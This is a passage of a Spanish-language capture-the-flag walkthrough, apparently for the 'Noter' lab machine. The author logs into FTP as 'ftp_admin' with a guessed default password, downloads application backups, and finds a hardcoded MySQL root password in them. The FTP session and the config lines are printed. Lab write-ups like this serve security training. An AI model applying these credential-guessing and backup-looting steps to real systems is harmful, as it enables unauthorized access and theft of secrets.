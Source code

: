 Observamos que el usuario `blue` mantiene el nombre y contraseña con el formato por defecto. Entonces, si logramos entrar entrar con esas credenciales al servicio **FTP**, y además ya que encontramos al usuario administrador del servicio **FTP** de la aplicación **Noter** `ftp_admin`, es tan descuidado de no haber cambiado su contraseña?

```console
❯ ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:potro): ftp_admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||60125|)
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
ftp> mget *
mget app_backup_1635803546.zip [anpqy?]? y
229 Entering Extended Passive Mode (|||33048|)
150 Opening BINARY mode data connection for app_backup_1635803546.zip (25559 bytes).
100% |*****************************************************************************************************| 25559      189.43 KiB/s    00:00 ETA
226 Transfer complete.
25559 bytes received in 00:00 (101.20 KiB/s)
mget app_backup_1638395546.zip [anpqy?]? y
229 Entering Extended Passive Mode (|||8514|)
150 Opening BINARY mode data connection for app_backup_1638395546.zip (26298 bytes).
100% |*****************************************************************************************************| 26298      220.77 KiB/s    00:00 ETA
226 Transfer complete.
26298 bytes received in 00:00 (112.80 KiB/s)
ftp> exit
221 Goodbye.
```

De locos, encontramos dos archivos `.zip` de posibles _backups_, de nuevo los descargamos a nuesta máquina con el comando `mget *`, los descomprimimos `7z x <file_name> -o<output_directory>` y procedemos a estudiar su contenido

Después de analizarlos, llegamos a la conclusión que efectivamente son respaldos de la aplicación **Noter**:

> En el primer archivo que es de Noviembre01 encontramos de cara unas credenciales de un servidor `MySQL` del usuario `root`

```console
  14   │ 
  15   │ # Config MySQL
  16   │ app.config['MYSQL_HOST'] = 'localhost'
  17   │ app.config['MYSQL_USER'] = 'root'
  18   │ app.config['MYSQL_PASSWORD'] = 'Nildogg36'
  19   │ app.config['MYSQL_DB'] = 'app'
  20   │ app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
  21   │ 
```
